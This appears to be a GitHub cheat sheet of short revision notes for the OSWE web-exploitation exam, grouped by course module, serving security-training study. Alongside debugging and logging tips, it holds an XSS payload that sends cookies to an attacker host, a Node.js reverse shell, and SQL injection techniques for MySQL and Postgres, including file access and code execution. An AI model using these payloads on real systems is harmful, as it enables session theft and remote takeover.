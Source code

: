 # OSWE-cheat-sheet
OSWE-cheat sheet module by module short notes for quick revision for exam:

Module : Atmail (PHP):

1. Access and alert cookie (Httponly flag should be disable in set-Cookie headers)<br>
    <script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    function addImage() {<br>
    var img = document.createElement('img');<br>
    img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    document.body.appendChild(img);<br>
    }<br>
    addImage();<br>
    
4. Set cookie in web developer console<br>
    javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("POST", url, true)<br>
    xhr.send(data)<br>
    
6. XHR GET Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("GET", url, true)<br>
    xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            [mysqld]<br>
            general_log_file = /var/log/mysql/mysql.log<br>
            general_log = 1<br>
    systemctl restart mysql        //Restart MySQL<br>
    tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    echo "any message";<br>
    
4. Dump information about varaible<br>
    var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    !/usr/bin/python <br>
    import zipfile <br>
    from cStringIO import StringIO<br>

    def build_zip():<br>
        f = StringIO()<br>
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        z.writestr('folder/file.txt', 'secret')<br>
        z.close()<br>
        zip = open('zip.zip','wb')<br>
        print f.getvalue()<br>
        zip.write(f.getvalue())<br>
        zip.close()<br>
    
    build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
Module : The Bassmaster Plugin (Nodejs) : 
1. JavaScript reverse shell<br>
     var net = require("net"), sh = require("child_process").exec("/bin/bash");<br>
     var client = new net.Socket();<br>
     client.connect(53, "attackerip",<br>
     function(){client.pipe(sh.stdin);sh.stdout.pipe(client);<br>
     sh.stderr.pipe(client);});<br>

Module : DotNetNuke Cookie Deserialization RCE<br>
1. XmlSerializer Limitations<br>
        XmlSerializer is only able to serialize public properties and fields of an object.<br>
2. For better debugging experirence modify the debugging dll in dnSpy tool<br>
          [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations |
           DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
3. XML Serialization & Deserialization method<br>
    XmlSerializer.serialize() and XmlSerializer.deserialize(reader)<br>
4. Java Serialization & Deserialization method<br>
    Deserialization : inputObjectStream.readObject() and Serialization: outputObjectStream.writeObject()<br>
    
Module : ERPNext Authentication Bypass and Server Side Template Injection :<br>
1. Run SMTP Server on Kali <br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25<br>
    

